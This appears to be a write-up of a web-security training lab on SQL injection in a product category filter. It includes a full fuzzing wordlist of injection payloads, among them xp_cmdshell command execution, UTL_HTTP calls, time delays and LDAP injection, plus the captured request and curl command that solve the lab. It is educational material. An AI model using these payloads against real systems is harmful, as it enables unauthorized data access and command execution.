


## SQL Injection


### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1

```

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.




```
wordlists/wfuzz/Injections/SQL.txt 
'
"
#
-
--
'%20--
--';
'%20;
=%20'
=%20;
=%20--
\x23
\x27
\x3D%20\x3B'
\x3D%20\x27
\x27\x4F\x52 SELECT *
\x27\x6F\x72 SELECT *
'or%20select *
admin'--
<>"'%;)(&+
'%20or%20''='
'%20or%20'x'='x
"%20or%20"x"="x
')%20or%20('x'='x
0 or 1=1
' or 0=0 --
" or 0=0 --
or 0=0 --
' or 0=0 #
" or 0=0 #
or 0=0 #
' or 1=1--
" or 1=1--
' or '1'='1'--
"' or 1 --'"
or 1=1--
or%201=1
or%201=1 --
' or 1=1 or ''='
" or 1=1 or ""="
' or a=a--
" or "a"="a
') or ('a'='a
") or ("a"="a
hi" or "a"="a
hi" or 1=1 --
hi' or 1=1 --
hi' or 'a'='a
hi') or ('a'='a
hi") or ("a"="a
'hi' or 'x'='x';
@variable
,@variable
PRINT
PRINT @@variable
select
insert
as
or
procedure
limit
order by
asc
desc
delete
update
distinct
having
truncate
replace
like
handler
bfilename
' or username like '%
' or uname like '%
' or userid like '%
' or uid like '%
' or user like '%
exec xp
exec sp
'; exec master..xp_cmdshell
'; exec xp_regread
t'exec master..xp_cmdshell 'nslookup www.google.com'--
--sp_password
\x27UNION SELECT
' UNION SELECT
' UNION ALL SELECT
' or (EXISTS)
' (select top 1
'||UTL_HTTP.REQUEST
1;SELECT%20*
to_timestamp_tz
tz_offset
&lt;&gt;&quot;'%;)(&amp;+
'%20or%201=1
%27%20or%201=1
%20$(sleep%2050)
%20'sleep%2050'
char%4039%41%2b%40SELECT
&apos;%20OR
'sqlattempt1
(sqlattempt2)
|
%7C
*|
%2A%7C
*(|(mail=*))
%2A%28%7C%28mail%3D%2A%29%29
*(|(objectclass=*))
%2A%28%7C%28objectclass%3D%2A%29%29
(
%28
)
%29
&
%26
!
%21
' or 1=1 or ''='
' or ''='
x' or 1=1 or 'x'='y
/
//
//*
*/*

```



```bash
GET /filter?category='%20or%20'1'%3d'1'--&released=1 HTTP/2
Host: 0af2009a0429088480dd269a0051000c.web-security-academy.net
Cookie: session=Z5YS67o84FgYjV1moTElybtQCZvccgXQ
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: es-ES,es;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af2009a0429088480dd269a0051000c.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```

curl command:

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: 0af2009a0429088480dd269a0051000c.web-security-academy.net' -H $'Sec-Ch-Ua: \"Chromium\";v=\"135\", \"Not-A.Brand\";v=\"8\"' -H $'Sec-Ch-Ua-Mobile: ?0' -H $'Sec-Ch-Ua-Platform: \"Linux\"' -H $'Accept-Language: es-ES,es;q=0.9' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-User: ?1' -H $'Sec-Fetch-Dest: document' -H $'Referer: https://0af2009a0429088480dd269a0051000c.web-security-academy.net/' -H $'Accept-Encoding: gzip, deflate, br' -H $'Priority: u=0, i' \
    -b $'session=Z5YS67o84FgYjV1moTElybtQCZvccgXQ' \
    $'https://0af2009a0429088480dd269a0051000c.web-security-academy.net/filter?category=\'%20or%20\'1\'%3d\'1\'--&released=1'
```

***
[Index](../index.html)